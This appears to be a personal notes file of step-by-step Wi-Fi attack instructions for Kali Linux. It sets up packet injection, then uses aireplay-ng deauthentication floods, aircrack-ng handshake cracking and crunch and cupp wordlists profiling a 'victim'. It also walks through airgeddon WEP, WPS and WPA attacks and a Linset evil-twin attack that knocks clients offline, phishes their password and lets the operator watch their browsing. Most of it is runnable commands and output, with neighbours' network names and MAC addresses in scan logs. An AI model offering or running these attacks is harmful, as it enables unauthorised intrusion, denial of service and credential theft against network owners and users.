



[TOC]

# Installing TP-Link TP-WN722N ver 2 & 3 in Kali

```
!Use these commands to get the adapter working on Kali for packet injection and monitoring:
!Commands:
==========
sudo apt update
sudo apt upgrade
sudo apt install bc
sudo apt-get install build-essential 
sudo apt-get install libelf-dev 

!Try either of these commands to see which works:
sudo apt-get install linux-headers-`uname -r`
sudo apt-get install linux-headers-5.10.0-kali6-amd64

sudo apt install dkms
sudo rmmod r8188eu.ko
git clone https://github.com/aircrack-ng/rtl8188eus
cd rtl8188eus
sudo -i
echo "blacklist r8188eu" > "/etc/modprobe.d/realtek.conf"
exit
sudo reboot
sudo apt update
cd rtl8188eus
sudo make
sudo make install
sudo modprobe 8188eu


!To enable Monitor mode and test packet injection:
!=================================================
sudo ifconfig wlando0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig                             
sudo aireplay-ng --test wlan0
```


# WIFI Hacking

alfa awus036nh
e8:4e:06:4b:62:fc


**Restoring Networkmanager after airmon-ng check kill**

```
# airmon-ng stop wlan0mon (or whatever the virtual interface name is)
# service NetworkManager start
# service wpa_supplicant start
```


## Method 1: Bruteforce attack

Kill processes that can cause problem 

```
# airmon-ng check kill
```


1. List the available wifi interface

```
# airmon-ng 

PHY	Interface	Driver		Chipset

phy0	wlp1s0		iwlwifi		Intel Corporation Wireless 8260 (rev 3a)
phy3	wlxe84e064b62fc	rt2800usb	Ralink Technology, Corp. RT2870/RT3070

```


2. Set Wireless Interface on Monitor Mode

```
# airmon-ng start wlp1s0


PHY	Interface	Driver		Chipset

phy0	wlp1s0		iwlwifi		Intel Corporation Wireless 8260 (rev 3a)

		(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp1s0)
phy3	wlxe84e064b62fc	rt2800usb	Ralink Technology, Corp. RT2870/RT3070

```


3. Scan For Available WiFis

```
# airodump-ng wlan0mon
```


Output

```


CH 14 ][ Elapsed: 1 min ][ 2021-01-23 18:18 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 BC:C0:0F:D2:C2:A8   -1        0        2    0  11   -1   WPA              <length:  0>                              
 F0:D1:A9:16:0A:28  -12       42        6    1   6  130   WPA2 CCMP   PSK  Sherwin's Wi-Fi Network                   
 3C:84:6A:A7:EB:B0  -30       45       12    0  10  195        CCMP   PSK  <length:  0>                              
 42:84:6A:A7:EB:B0  -30       52        0    0  10  195   WPA2 CCMP   PSK  <length:  0>                              
 BC:98:89:9D:3C:58  -38       44        6    0  11  130   WPA2 CCMP   PSK  PLDTHOMEFIBR-SHEN                         
 3E:77:E6:88:83:E2  -48       46        0    0   2  130   WPA2 CCMP   PSK  DIRECT-T5-BRAVIA                          
 E4:AB:89:82:82:03  -68       28       18    0   4  130   WPA2 CCMP   PSK  GlobeAtHome-2.4G-828203                   
 00:25:00:FF:94:73   -1        0        0    0  -1   -1                    <length:  0>                              
 8C:25:05:E1:7D:34  -71        6        0    0   1  270   WPA  CCMP   PSK  B315_17D34                               
```

4. Generate the Traffic that will be used

```
# airodump-ng -c 6 --bssid F0:D1:A9:16:0A:28 -w /home/sherwinowen/Desktop/wifi/bf_test wlan0mon
```

- -w name of the file that will be generated, the pcap will be saved in the current working direcory where the command was run at unless the path is specified.

- -bssid  specifies the bssid <From the output of the previous command> of the WiFi you wish to crack its passwords.

- -channel specifies the channel to listen on.

- -wlan0mon specifies the interface to capture traffic on.

  

Output

```
   CH 11 ][ Elapsed: 18 mins ][ 2021-01-23 21:44 ][ WPA handshake: BC:98:89:9D:3C:58 
  
   BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
  
   BC:98:89:9D:3C:58  -42  98     2860   388479  144  11  130   WPA2 CCMP   PSK  PLDTHOMEFIBR-SHEN                     
  
   BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
  
   BC:98:89:9D:3C:58  E4:B3:18:08:C9:79  -22    0e- 0e     0    34896  EAPOL                                            
   BC:98:89:9D:3C:58  8E:57:89:77:47:F4  -42    1e-24      0     5992                                                   
   BC:98:89:9D:3C:58  C8:85:50:E8:88:C4  -50    0e-24      6   135995                                                   
   BC:98:89:9D:3C:58  5C:1D:D9:4B:3E:0C  -56    0e- 0e     0   157853  
```

  

5. DeAuthenticate a connected Device

```
# aireplay-ng -0 0 -a BC:98:89:9D:3C:58 -c e4:b3:18:08:c9:79 wlan0mon

# aireplay-ng -0 10 -a 80:35:C1:13:C1:2C wlan0mon

# aireplay-ng --deauth 10 -a [router bssid] interface
```

- -o sets the count of number of deauthentication packets to send to the connected clients, station(s).
- -a  specify or set Access Point MAC Address, this case the BSSID of the WiFi you wish to crack its WEP and WPA-PSK Keys to get its password.
- -c  specify or set destination MAC address, in this case is the Device, STATION you want to deauthenticate from the WiFi network.
- wlan0mon  specifies the interface on promiscuous mode.

Output

```
21:36:50  Waiting for beacon frame (BSSID: BC:98:89:9D:3C:58) on channel 11
21:36:51  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [13|29 ACKs]
21:36:52  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [10|26 ACKs]
21:36:52  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [17|21 ACKs]
21:36:53  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|20 ACKs]
21:36:54  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 7|22 ACKs]
21:36:54  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [32|28 ACKs]
21:36:55  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [47|29 ACKs]
21:36:56  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [17|32 ACKs]
21:36:56  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [30|29 ACKs]
21:36:57  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [54|62 ACKs]
21:36:58  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [90|60 ACKs]
21:36:58  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [54|57 ACKs]
21:36:59  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [67|48 ACKs]
21:37:00  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [91|51 ACKs]
21:37:00  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [70|64 ACKs]
21:37:01  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [25|41 ACKs]
21:37:02  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 8|43 ACKs]
21:37:02  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [38|25 ACKs]
21:37:03  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [12|34 ACKs]
21:37:04  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [22|52 ACKs]
21:37:04  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [82|48 ACKs]
21:37:05  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [14|41 ACKs]
21:37:06  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [12|38 ACKs]
21:37:06  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [43|44 ACKs]
21:37:07  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [21|42 ACKs]
21:37:07  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [22|41 ACKs]
21:37:08  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 5|22 ACKs]
21:37:09  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|32 ACKs]
21:37:09  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|29 ACKs]
21:37:10  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|40 ACKs]
21:37:10  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 9|42 ACKs]
21:37:11  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [20|28 ACKs]
21:37:12  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 8|37 ACKs]
```

6. Crack password using crunch and aircack-ng

```
# crunch 14 14 '(#R3!neL$yl)' | aircrack-ng -a2 -b BC:98:89:9D:3C:58 -w - /home/sherwinowen/Desktop/wifi/bf_test-01.cap
```


## Method 2: Dictionary Attack

Start dictionary attack with Aircrack

```
# aircrack-ng -a2 -b BC:98:89:9D:3C:58 -w /dictionary/wordlist /wifi/bf_test-01.cap
```

- -b BSSID

- -w [POSSIBLE_PASSWORDS_FILE.TXT] [PATH_TO_WPA_HANDSHAKE_FILES*.cap]

  

## Generate wordlist using crunch

```
# Generating wordlist using the character string
crunch 3 4 raj -o /root/Desktop/1.txt

# Generating alpha-numeric wordlist
crunch 2 3 raj123 -o /root/Desktop/3.txt

# Generating wordlist along with space character
crunch 1 3 raj\ -o /root/Desktop/4.txt

# Create wordlist using character set file of RainbowCrack
crunch 4 5 -f /usr/share/rainbowcrack/charset.txt loweralpha-numeric -o /root/Desktop/5.txt

# Generate wordlist with specific Pattern
Using option –t you can generate 4 type patters as specified below:
- Use @ for lowercase alphabets
- Use , for uppercase alphabets
- Use % for numeric character
- Use ^ for special character symbol
crunch 6 6 -t raj%%% -o /root/Desktop/6.txt

# Generate wordlist with Duplicate character limit
crunch 6 6 -t raj%%% -d 2% -o /root/Desktop/6.1.txt

# Use Permutation for generating a wordlist
crunch 3 6 -p raj chandel hackingarticles
Crunch will now generate approximately the following amount of data: 156 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 6 
chandelhackingarticlesraj
chandelrajhackingarticles
hackingarticleschandelraj
hackingarticlesrajchandel
rajchandelhackingarticles
rajhackingarticleschandel

# Generate a Dictionary with limited words
crunch 5 5 IGNITE -c 25 
Crunch will now generate the following amount of data: 150 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 25 
IIIII
IIIIG
IIIIN
IIIIT
IIIIE
IIIGI
IIIGG
IIIGN
IIIGT
IIIGE
IIINI
IIING
IIINN
IIINT
IIINE
IIITI
IIITG
IIITN
IIITT
IIITE
IIIEI
IIIEG
IIIEN
IIIET
IIIEE
```

**Wordlist Fragmentation**

Use **–b option** for wordlist fragmentation that split a single wordlist into multi wordlist. It is a quite useful option for dividing wordlist which is in GB can break into MB.

```
crunch 5 7 raj@123 -b 3mb -o START
```

**Generate compressed Dictionary**

Crunch let you generate compress wordlist with **option –z** and other parameters are gzip, bzip2, lzma, and 7z, execute given below command for compression.

```
crunch 5 7 raj@123 –z gzip -o START
```


## Creating password list with Cupp

```
root@Hackingvision:~/cupp# python cupp.py -i

[+] Insert the informations about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: morgan
> Surname: peter
> Nickname: parker
> Birthdate (DDMMYYYY): 09091997


> Partners) name: 
> Partners) nickname: spiderman
> Partners) birthdate (DDMMYYYY):


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY):


> Pet's name: scooby
> Company name: hackingvision


> Do you want to add some key words about the victim? Y/[N]: any specific keyword
> Do you want to add special chars at the end of words? Y/[N]: n
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to morgan.txt, counting 1524 words.
[+] Now load your pistolero with morgan.txt and shoot! Good luck!
```


## Method 3: Evil Twin

### Airgeddon

Indeed, it is not necessary, but I prefer to unload Network Manager and stop all other processes which would interfere in my activity:

```
$ sudo systemctl stop NetworkManager
$ sudo airmon-ng check kill
```

​	Launch the script:

```
$ sudo bash airgeddon.sh
```

​	[

​	Select the correct (wireless) interface, named **wlan0**:

​	[

​	Now select the second option from menu - Put interface in monitor mode:

​	[

​	Now we are armed completely. We are able to hack our first Wi-Fi network.

​	[

### Automated WEP attack 

As I mentioned above, there are some different protocols and cyphers  using by Wi-Fi networks. The weakest one is WEP. The WEP protocol had a  bad design and can be cracked in a few minutes if we have enough  generated traffic. So we should start from checking whether any WEP  enabled networks is available around us.

​	Select  9  WEP attacks menu

​	[]

Select the 4. Explore for targets (monitor mode needed)’ menu item to find any WEP enabled Wi-Fi networks:


​	When started, press [Ctrl+C] to stop…

​	[

​	As you can noticed, I can reach the only one WEP enabled network:

```
4)  00:1E:58:C6:AC:FB  6  57%  WEP  dlink
```

​	Therefore, I enter 4:

​	

​	Currently I am completely ready to start the attack, I should select the ‘5. WEP "All-in-One" attack’ menu item:

​	

The WEP "All-in-One" attack combines different techniques to generate  enough traffic to decrypt the key (Caffe Latte, Hirte, Replay,  Chop-Chop, Fragmentation, Fake association, etc.

​	The program reports:

```
You have a valid WEP target network selected. Script can continue...``Press [Enter] key to continue...
```

​	And asks the path for the file to save the cracked password, I press [Enter] to accept the default proposal:

```
If the password for the wifi network is obtained with the "All-in-One" WEP attack, you should decide where to save it. Type the path to store the file or press [Enter] to accept the default proposal [/root/wep_captured_key-dlink.txt]
```


​	Next:

```
The path is valid and you have write permissions. Script can continue...``Press [Enter] key to continue...` `All parameters and requirements are set. The attack is going to start. Multiple windows will be opened, don't close anyone. When you want to stop the attack press [Enter] on this window and the script will automatically close them all``Press [Enter] key to continue...
```


​	WEP attack in progress:


​	The WEP password as ASCII string and in Hexadecimal will be shown in the new window:

​	

​	In my test they are:

```
ASCII: ey20001010
Hexadecimal: 4A656E6E793230303031303130
```

Also you can get them from the **/root/wep_captured_key-dlink.txt** file:

```
$ cat /root/wep_captured_key-dlink.txt
```

But in my test the ASCII string does not equal Hexadecimal. To prove that I type the command:

```
$ echo 4A656E6E793230303031303130 | xxd -r -p
Jenny20001010
```

​	

You can convert Hexadecimal value to ASCII string by the following command, where replace **Hex_Value** with actual Hexadecimal:

```
$ echo [Hex_Value] | xxd -r -p
```

### Automated WPS attack 

Many WPS enabled Wi-Fi Access Points is vulnerable to WPS attacks.

Currently there are known issues with the devices that uses rt2800usb  drivers (chips RT3070, RT3272, RT3570, RT3572 etc). There is  unfortunately right now no solution. Therefore, the great [Alfa AWUS052NH](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Alfa+AWUS052NH&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg) and [Panda Wireless PAU09 N600](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Panda+Wireless+PAU09+N600&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg) do not suit for these attacks.

For all WPS attacks, I highly recommend to use [Alfa AWUS036NHA](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Alfa+AWUS036NHA&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg). Because it is based on another chipset and uses another driver.

In the main menu select the ‘8. WPS attacks menu’ item:

​	


**There are 4 WPS attacks in airgeddon:**

- **Custom PIN association** 
- **Pixie Dust attack** 
- **Bruteforce PIN attack** 
- **Known PINs database based attack** 

#### 	Pixie Dust attack 

WPS PIN exploiting the low or non-existing entropy of some Access  Points, the so-called "pixie-dust attack" discovered by Dominique  Bongard in summer 2014.

As opposed to the traditional online brute-force attack, implemented in tools like [Reaver](https://en.kali.tools/?p=346) or Bully which aim to recover the pin in a few hours, this method can  get the PIN in only a matter of milliseconds to minutes, depending on  the target, if vulnerable.

As any other attacks, start from ‘4. Explore for targets (monitor mode needed)’:

​	

​	Select not Locked (marked red) AP:

​	

Next select ‘8. (reaver) Pixie Dust attack’. Select Pixie Dust timeout 100 or more seconds.

Starting attack. When started, press [Ctrl+C] to stop…

After stopping the attack (using [Ctrl+C]), the window will not be  closed automatically. So you'll have time to write down the password if  successful. You'll have to close it manually

​	

#### 	Known PINs database based attack 

The attack described in details in ‘[Effective WPS PINs attack based on known PIN and PIN generation algorithms](https://miloserdov.org/?p=325)’.

#### 	Bruteforce PIN attack 

This attack requires hours or days to get WPS PIN. Use the attack if previous ones failed.

####	Custom PIN association 

This attack lets you reveal WPA-PSK password of Wi-Fi network if you know WPS PIN.

​	


### 	WPA/WPA2 attack 

If target Access Point is not WPS enabled or if all WPS attacked  failed, we can try to capture Handshake (frames by which the Access  Point and Station are exchanged during connection) and decrypt it.

For all the following attacks I will use [Alfa AWUS052NH](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Alfa+AWUS052NH&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg).

First, we have to capture Handshake, therefore select ‘5. Handshake tools menu’ item in the main menu:


Start from 4. Explore for targets (monitor mode needed)’:


**The best targets have:**

- clients 
- strong signal 

After I selected the target AP, I enter 5. Capture Handshake:

​		

**We have 3 options:**

1. **Deauth / disassoc amok mdk3 attack** 
2. **Deauth aireplay attack** 
3. **WIDS / WIPS / WDS Confusion attack** 

​	

Usually I prefer the second option (Deauth aireplay attack), if it failed I try with ‘1. Deauth / disassoc amok mdk3 attack’.

Two windows will be opened. One with the Handshake capturer and other with the attack to force clients to reconnect.

Don't close any window manually, script will do when needed. In about  20 seconds maximum you'll know if you've got the Handshake.

I am asked:

```
Did you get the Handshake? (Look at the top right corner of the capture window) [y/n]
```

I got the Handshake.


​	Next:

```
Type the path to store the file or press [Enter] to accept the default proposal [/root/handshake-00:1E:58:C6:AC:FB.cap]
```

Now I ‘7. Return to main menu’ and select ‘6. Offline WPA/WPA2 decrypt menu’:


To launch Dictionary attack against capture file I select the first  menu item (‘1. (aircrack) Dictionary attack against capture file’).

The script reports:

```
You already have selected a capture file during this session [/root/handshake-00:1E:58:C6:AC:FB.cap]`
Do you want to use this already selected capture file? [Y/n] 

You already have selected a BSSID during this session and is present in capture file [00:1E:58:C6:AC:FB]
Do you want to use this already selected BSSID? [Y/n]
```

I agree.

As the path of a dictionary file I enter **/root/newrockyou.txt**.

The Dictionary attack in progress:

​	

If the attack succeeded the string, containing ‘**KEY FOUND!**’, will be displayed.

​	

In addition, the script will ask about storing the trophy file:


If the dictionary attack failed, you can try again with another dictionary of use the ‘**2. (aircrack + crunch) Bruteforce attack against capture file**’.

I recommend you to try eight digits and ten digits passwords (Numeric  chars). The first ones are Birthday dates (19990210); the second ones  are phone numbers (09341112233).

### Crack Wifi Password Using Evil Twin Attack Using Wifislax

1.  Install WifiSlax in Flash Drive or Pendrive using universal USB installer

2.  Start WifiSlax

   a. Click on “Change To English Menu".

   b. Click on “Run with SMP Kernel”

   c. Click on “WifiSlax with KDE Desktop

3. Go to WifiSlax > WPA > Linset (Evil Twin Attack)

4. Linset will Start required Tolls

5. Select Wlan0

6. type “1” to select Wlan0

7. Enter “1” to select “todos los canales” which means select all channels. We need to search all channels to get all the networks available near you. If you want to hack a particular network whose channel number you know already, select 2 and proceed.

8. All the Available networks will be shown now, wait for 2-3 mins to complete the search and click “CTRL +C” To stop the search

9. Select the network that you want to hack from the list

10. Enter the number of the network that you want to hack, in my case, I am hacking my own network which is “Virus” and is located at number 5

11. Now we need to select hostpad, so type “1”

12. We need to enter the path of the handshake, there is no need to enter any address, by default it takes some root/micaprura.cap, so just Hit “Enter” without typing anything.

13. We are going to capture handshake using aircrack-ng, so enter “1"

14. We need to deactivate the process after the handshake is created, so we need to select “realizardesaut. masiva al ap objetivo” that is “1”

15. Now Handshake capturing process will start, and 2 windows will open. we need to wait until the handshake is created. You need to capture handshake compulsorily to proceed.

16. After the Handshake is captured, close the de authentication box

17. Select “Si” which means “Yes”. So, Enter “1”

18. Select “Interface Web Nutra”. So, Enter “1”

19. Select your Language, I am Selecting “English” as the content in my country is displayed in English. You can choose accordingly and enter the number

20. Now the main process will start DHCP, fake DNS, AP, deauth all, and wifi info dialog boxes will open. You need to wait until the client is connected to our network.

21. Check out for active clients. The victim cannot access their internet connection until we stop the process. DHCP and deauth all will stop them from receiving any packets which make them shift to another network i.e. our fake access point or fake network signal In this process, A DOS attack is launched and the victim loses their internet connection and the victim see’s it as “Limited Connection” When you are at this step, you can even eavesdrop on the victim. you can see all the websites they surf, each and every detail is displayed in FAKE DNS
    Now I will show you what happens when the process is started Original network gets disconnected and our newly created fake network with the same name connects to victim’s network and a page pop’s up


# David Bombal Wifi Hacking Steps

```
!Verify that monitor mode is used
sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:
iwconfig

! Get the AP's MAC address and channel
sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2

!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack
!Make sure you replace the bssid with your own
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file
wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
eapol

!Stop monitor mode
airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist
!Make sure you have rockyou in text format (unzip file on Kali)
!Replace hack1-01.cap with your file name
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 

```

